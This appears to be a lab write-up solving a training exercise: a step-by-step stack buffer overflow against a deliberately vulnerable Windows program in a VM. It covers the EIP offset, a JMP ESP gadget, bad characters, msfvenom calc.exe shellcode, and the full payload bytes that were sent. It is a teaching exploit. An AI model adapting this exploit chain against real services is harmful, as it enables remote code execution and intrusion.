 # Dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Solution
### 1. Set up exe in Windows VM
The IP address of the VM is 192.168.34.253.
![UI Screenshot](img/1.png)
Test out the program in Kali:
```bash
kali@kali:~$ nc 192.168.34.253 31337
test
Hello test!!!
test
Hello test!!!
test2
Hello test2!!!
exit
Bye!
```

### 2. Find EIP location
```bash
kali@kali:~$ python -c "from pwn import cyclic; print(cyclic(1000))" | nc 192.168.34.253 31337
```
Over on the debugger, it can be seen the application has crashed with an access violation on `0x616D6261`.
![UI Screenshot](img/2.png)
Next, get the offset using this address.
```bash
kali@kali:~$ python -c "from pwn import cyclic_find; print(cyclic_find(0x616D6261))"
146
```

### 3. Find JMP ESP instruction
This can be done a number of ways. A common way of doing it these days is using Immunity Debugger's mona plugin which can search for instructions in a debugged executable.  
Use `!mona modules` to ensure there is lacking protection on the binary being analysed.
```bash
0BADF00D   !mona modules

           ---------- Mona command started on 2020-11-09 17:24:27 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x70ee0000 | 0x70fc0000 | 0x000e0000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [ucrtbase.DLL] (C:\Windows\system32\ucrtbase.DLL)
0BADF00D    0x70e40000 | 0x70e44000 | 0x00004000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [api-ms-win-crt-convert-l1-1-0.dll] (C:\Windows\system32\api-ms-win-crt-convert-l1-1-0.dll)
0BADF00D    0x75440000 | 0x75515000 | 0x000d5000 | True   | True    | True  |  True    | True   | 6.1.7601.18015 [kernel32.dll] (C:\Windows\system32\kernel32.dll)
0BADF00D    0x76f30000 | 0x76fdc000 | 0x000ac000 | True   | True    | True  |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\system32\msvcrt.dll)
0BADF00D    0x08040000 | 0x08048000 | 0x00008000 | False  | True    | False |  False   | False  | -1.0- [dostackbufferoverflowgood.exe] (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
```
This shows that rebase and ASLR are false for the executable. Search for FFE4 (jmp esp) instructions with `!mona jmp -r esp -m dostackbufferoverflowgood.exe`:
```bash
0BADF00D   !mona jmp -r esp -m dostackbufferoverflowgood.exe

           ---------- Mona command started on 2020-11-09 17:39:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules dostackbufferoverflowgood.exe
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module dostackbufferoverflowgood.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D   [+] Results :
080414C3     0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
080416BF     0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
0BADF00D       Found a total of 2 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.154000
```
Add `0x080414c3` as jmp_esp.

### 4. Identify bad characters
Here is an array of characters that can be tried with the application.
```python
chars += ""
chars += "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
chars += "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
chars += "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
chars += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
chars += "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
chars += "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
chars += "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
chars += "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
The goal is to ensure any characters that stop this string being processed by the application are removed. This is an iterative process.
1. Send the entire string to the application
2. See if the entire string was copied into memory successfully by following ESP in dump
3. If not, remove the offending characters
4. Repeat.  
  
![UI Screenshot](img/3.png)
In this instance, there is 1 bad character, `0x0a`, which didn't make it into the dump.

### 5. Generate some shellcode
```bash
kali@kali:~/Desktop/dostack$ msfvenom --arch x86 --platform windows -p windows/exec CMD=calc.exe -b '\x0a' -f python > shellcode.py
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
```
Note: due to shikata_ga_nai encoding, the GetPC routine will result in data being added near the top of the stack, which can affect instructions at ESP. A small NOP sled is added to account for this.  
The exploit is structured like so:
```
[PADDING * 146] + [JMP ESP] + [32 BYTE NOPSLED] + [CALC SHELLCODE]
```

### 6. Exploit the application
```bash
kali@kali:~/Desktop/dostack$ python exploit.py 
[+] Opening connection to 192.168.34.253 on port 31337: Done
[DEBUG] Sent 0x193 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000090  41 41 c3 14  04 08 90 90  90 90 90 90  90 90 90 90  │AA··│····│····│····│
    000000a0  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    000000b0  90 90 90 90  90 90 b8 29  31 fd dc db  d8 d9 74 24  │····│···)│1···│··t$│
    000000c0  f4 5a 2b c9  b1 31 31 42  13 83 ea fc  03 42 26 d3  │·Z+·│·11B│····│·B&·│
    000000d0  08 20 d0 91  f3 d9 20 f6  7a 3c 11 36  18 34 01 86  │· ··│·· ·│z<·6│·4··│
    000000e0  6a 18 ad 6d  3e 89 26 03  97 be 8f ae  c1 f1 10 82  │j··m│>·&·│····│····│
    000000f0  32 93 92 d9  66 73 ab 11  7b 72 ec 4c  76 26 a5 1b  │2···│fs··│{r·L│v&··│
    00000100  25 d7 c2 56  f6 5c 98 77  7e 80 68 79  af 17 e3 20  │%··V│·\·w│~·hy│··· │
    00000110  6f 99 20 59  26 81 25 64  f0 3a 9d 12  03 eb ec db  │o· Y│&·%d│·:··│····│
    00000120  a8 d2 c1 29  b0 13 e5 d1  c7 6d 16 6f  d0 a9 65 ab  │···)│····│·m·o│··e·│
    00000130  55 2a cd 38  cd 96 ec ed  88 5d e2 5a  de 3a e6 5d  │U*·8│····│·]·Z│·:·]│
    00000140  33 31 12 d5  b2 96 93 ad  90 32 f8 76  b8 63 a4 d9  │31··│····│·2·v│·c··│
    00000150  c5 74 07 85  63 fe a5 d2  19 5d a3 25  af db 81 26  │·t··│c···│·]·%│···&│
    00000160  af e3 b5 4e  9e 68 5a 08  1f bb 1f e6  55 e6 09 6f  │···N│·hZ·│····│U··o│
    00000170  30 72 08 f2  c3 a8 4e 0b  40 59 2e e8  58 28 2b b4  │0r··│··N·│@Y.·│X(+·│
    00000180  de c0 41 a5  8a e6 f6 c6  9e 84 99 54  42 65 3c dd  │··A·│····│···T│Be<·│
    00000190  e1 79 0a                                            │·y·│
    00000193
[*] Closed connection to 192.168.34.253 port 31337
```
This pops a calculator on the Windows VM.
![UI Screenshot](img/4.png)